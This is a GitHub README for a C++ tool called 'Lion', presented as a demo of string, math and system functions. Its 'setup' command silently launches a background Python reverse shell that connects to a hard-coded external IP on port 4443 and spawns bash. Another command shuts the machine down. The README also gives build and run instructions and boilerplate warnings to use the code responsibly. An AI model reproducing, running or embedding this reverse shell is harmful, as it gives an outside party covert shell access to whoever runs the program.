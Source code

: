 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    modules::math::operations ops;
    double result = ops.add(1.0,2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

bool shutdown_command() {
  system("shutdown -h now");
  Logger::log(Logger::LogLevel::Info, "System is shutting down...");
  return true;
}

bool test_command() {
  testCore::command test;
  test.testCommand();
  Logger::log(Logger::LogLevel::Info, "Test command executed successfully.");
  return true;
}

int main(int argc, char **argv) {
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = modules::username::getUsername();
  const std::string colored_username = RESET + username + RESET;
  std::string role =
      modules::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = colored_username + " [" + role + "]";

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    Logger::log(Logger::LogLevel::Info, "Available commands: setup, math");
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"shutdown", shutdown_command},
      {"setup", setup_command},
      {"math", math_command},
      {"test", test_command},
  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    // std::cerr << "Unknown command: " << command << std::endl;
    Logger::log(Logger::LogLevel::Error, "Unknown command: " + command);
    return 1;
  }

  return 0;
}
```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.
Contact
---

### Example

![alt text](gh/image.png)

